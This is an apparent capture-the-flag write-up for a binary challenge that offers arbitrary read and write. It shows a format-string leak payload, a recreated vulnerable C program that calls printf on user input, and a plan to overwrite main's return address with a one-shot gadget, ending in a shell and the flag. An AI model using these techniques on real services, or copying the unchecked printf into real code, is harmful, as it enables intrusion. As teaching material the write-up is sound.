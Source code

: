 # Arbitrary Read/Write writeup

NOTE: This writeup was written while we didn't intend to give out the binary.

When connecting, we can enter our name, and then we are presented with the
following menu options:
```
1. read
2. write
3. quit
```

Not much to choose from. When trying to read from normal start addresses for
Linux binaries, the program crashes, so we can assume that it's a
[PIE](https://en.wikipedia.org/wiki/Position-independent_code). Which in turn
means that we have to leak some memory to continue. The only viable option seems
to be the name entry. Let's try.

```
What's your name? %p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Welcome 0x7fcd5380c780.0x7fcd5353d290.0x7fcd53a22700.0x8.(nil).(nil).(nil)
.(nil).(nil).(nil)
```

Score! There are only three addresses that stand out, however. And they all seem
to be from libc. We can also confirm that the binary is 64-bit. These addresses
are inside libc, so we can compile our own binary and see what these values
point to.

```
#include <stdio.h>

int main(void)
{
	printf("%p.%p.%p\n");
	return 0;
}
```

When running, we get these values back;
```
0x7fffffffe3a8.0x7fffffffe3b8.(nil)
```

These don't look like the ones from the remote service, however. We can try to
recreate the remote binary from the actions we know that it performs:

```C
#include <stdio.h>
#include <unistd.h>

int main(void)
{
	char name[64] = { 0 };
	alarm(30);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("What's your name? ");
	fgets(name, sizeof(name), stdin);
	printf("Welcome ");
	printf(name);

	return 0;
}
```

We break right after the call to printf and look at the values:
```
Welcome 0x7fffffffbbe0.0x7ffff7dd3780.0x7ffff7b04290
```
The third one matches the second address leaked from the remote binary!

```
gdb-peda$ x/i 0x7ffff7b04290
   0x7ffff7b04290 <__write_nocancel+7>:	cmp    rax,0xfffffffffffff001
```

This means that we are leaking `__write_nocancel+7`.

The offset from the libc base is `0xf7290`. From here we have a couple of
options. We can either try to manipulate libc in some way, for example by
overwriting `__malloc_hook` with a one-shot gadget. However, we don't know much
about the binary, and judging by its limited functionality, chances are that
it's not calling `malloc()`.

The other option is to find the end of the stack by reading from
`__libc_stack_end`, and working our way backwards to find the return address
from `main()`, which is `__libc_start_main+240`.

We can use [one_gadget](https://github.com/david942j/one_gadget) to find
one-shot gadgets to spawn a remote shell.

The solution source code can be found [here](src/solve.py).

```
[+] Opening connection to arbitrary.tghack.no on port 1060: Done
[*] libc base: 0x7fcec166f000
[*] stack end: 0x7fff3dfada10
[*] found return from main: 0x7fcec168f830
[+] shell 4 u <3
[*] Switching to interactive mode
 $ ls
flag.txt
main
$ cat flag.txt
TG18{n3xt_t1m3_w3_sh0uld_protect_th3_st4ck_as_w3ll}
```
